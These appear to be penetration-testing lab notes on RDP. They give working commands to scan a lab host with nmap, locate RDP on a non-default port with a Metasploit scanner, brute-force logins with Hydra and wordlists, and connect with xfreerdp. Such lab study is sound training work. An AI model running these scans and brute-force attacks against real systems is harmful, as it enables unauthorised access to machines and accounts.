 - The Remote Desktop Protocol (RDP) is a proprietary GUI remote access protocol and is used to remotely connect and interact with a windows systems.
- RDP uses TCP port ***3389*** by default, and it requires a legitimate user account on the target system as well as the user's password in clear text.
***
***
## Practical
##### Scan the Target
```
nmap -sV IP
```

##### Identify RDP endpoints using an auxiliary module
Default RDP port, 3389, is not present but port 3333 is exposed. So, using Metasploit to dig further on that port.
```
msfconsole
search rdp_scanner
use auxiliary/scanner/rdp/rdp_scanner
set rport 3333
set rhosts target
run
```

We found the target RDP port is exposed on the port 3333 not 3389.

##### Brute Force using Hydra
```
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://demo.ine.local -s 3333
```

##### Connect to RDP
```
xfreerdp /u:administrator /p:password /v:target:port
```